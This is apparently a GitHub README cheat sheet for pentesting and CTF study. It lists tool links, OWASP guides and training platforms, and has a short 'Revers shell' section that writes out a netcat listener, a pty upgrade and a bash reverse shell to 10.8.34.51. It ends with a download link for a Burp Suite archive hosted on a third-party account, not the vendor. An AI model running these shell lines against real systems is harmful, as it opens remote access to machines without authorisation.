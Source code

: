 <div align="center">
  <img src="https://i.imgur.com/sHcFK7G.jpg">
  <h1 align="center">
</div>
 
## Main links

 - [Temp email](https://linux0.net/)
 - [Cyberchief](https://gchq.github.io/CyberChef/)
 - [JWT.io](https://jwt.io/)
 - [Revshellgenerator](https://tex2e.github.io/reverse-shell-generator/index.html)
 - [SecLists](https://github.com/danielmiessler/SecLists)
 - [bbfuzzing](https://github.com/reewardius/bbFuzzing.txt)
 - [PayloadsAllTheThings](https://github.com/Fananad/PayloadsAllTheThings)
 - [Chat GPT](https://chat.openai.com/)
 - [PEASS-ng](https://github.com/Fananad/PEASS-ng) 
 
  
## Resourses for reading
  
 - [OWASP WSTG ENG](https://github.com/OWASP/wstg/tree/master/document)
 - [OWASP WSTG RUS](https://github.com/andrettv/WSTG/tree/master/WSTG-ru)
 - [OWASP ASVS RUS](https://github.com/andrettv/ASVS/tree/master/4.0/ru)
 - [HackTricks](https://book.hacktricks.xyz/welcome/readme)
 - [Exploit DB](https://www.exploit-db.com/)
  
# Academies
  
  - [PortSwigger](https://portswigger.net/)
  - [Academy](https://academy.hackthebox.com/dashboard/)
  - [TryHackme](https://tryhackme.com/)
  - [HackTheBox](https://www.hackthebox.com/)
  - [Hacker101](https://www.hacker101.com/)
  - [Codeby Games](https://codeby.games/categories)

# Revers shell 

  - [revshell](https://www.revshells.com/)
  - [ngrok](https://ngrok.com/)

  - python -c 'import pty;pty.spawn("/bin/bash")'
  - nc -lvnp 9999
  - sh -i >& /dev/tcp/10.8.34.51/9999 0>&1


# Search

  - [whois](https://whois.domaintools.com/)
  - [archive](https://archive.org/)
  - [archive ip,dns](viewdns.info)
  - [ip на одном хосте](https://suip.biz/ru/)

# APP
  - [commix "cmd injection"](https://github.com/commixproject/commix)
  - [commix](https://github.com/epinna/tplmap)



## Download Burp

[CLICK THIS LINK](https://github.com/Maverick-25/Burp-Suite/releases/download/tool/Burp-Suite.rar)
